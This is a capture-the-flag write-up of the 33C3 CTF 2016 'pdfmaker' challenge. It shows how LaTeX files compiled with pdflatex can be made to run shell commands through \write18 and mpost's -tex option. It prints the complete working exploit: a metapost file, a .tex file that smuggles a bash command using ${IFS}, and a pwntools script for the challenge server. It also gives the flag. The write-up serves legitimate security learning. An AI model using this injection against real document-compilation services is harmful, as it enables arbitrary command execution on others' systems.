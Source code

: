 ```yaml
---
title: 33C3 CTF 2016 -- pdfmaker
layout: single
comments: true
share: true
related: true
author_profile: true
permalink: "/:title/"
date: 2016-12-29 21:05
tags:
- 33C3
- CTF
- Python
- pdflatext
- Misc
categories:
- write-ups
---
```


**Category:** Misc
**Points:** 75

>Just a tiny [application](https://gist.github.com/bruce30262/80b089e24d3a34862fe78892c63d8dcf), that lets the user write some files and compile them with pdflatex. 
>What can possibly go wrong?
>nc 78.46.224.91 24242

<!-- more -->  

So this is a service that allow us to create, show & compile some files.
* `create`: Create a file. Valid file format are: `.log`, `.tex`, `.mb`, `.sty` & `.bib`
* `show`: Show the file content.
* `compile`: Compile a file with the `pdflatex` command.

We started by googling the key word **"pdflatex exploit"**, then teammate **mike** found a useful link: [Pwning coworkers thanks to LaTeX](http://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)

Basically we just need to follow the method mentioned in the post:
1. Create a `.mp` file
2. Create a `.tex` file with the malicious content. Here we change the command to `(cat${IFS}$(ls|grep${IFS}33C3))>qqq.log`, which will later store the flag content into `qqq.log`
3. Compile the `.tex` file. This will cause `pdflatext` execute our command
4. Show the `qqq.log` file and get the flag

Here's our final exploit:

sss.mp:
```
verbatimtex
\documentclass{minimal}\begin{document}
etex beginfig (1) label(btex blah etex, origin);
endfig; \end{document} bye
```

aaa.tex:
```
\documentclass{article}\begin{document}
\immediate\write18{mpost -ini "-tex=bash -c (cat${IFS}$(ls|grep${IFS}33C3))>qqq.log" "sss.mp"}
\end{document}
```

```python
from pwn import *

r = remote("78.46.224.91", 24242)

log.info("creating sss.mp...")
r.sendlineafter(">", "create mp sss")
r.recvline()
f = open("sss.mp", "r")
for line in f:
    r.sendline(line.strip())
r.sendline("\q")
f.close()

log.info("creating aaa.tex...")
r.sendlineafter(">", "create tex aaa")
r.recvline()
f = open("aaa.tex", "r")
for line in f:
    r.sendline(line.strip())
r.sendline("\q")
f.close()

r.sendlineafter(">", "compile aaa")
r.sendlineafter(">", "show log qqq")

r.interactive()
```

**Don't take LaTEX files from strangers!!**

flag: `33C3_pdflatex_1s_t0t4lly_s3cur3!`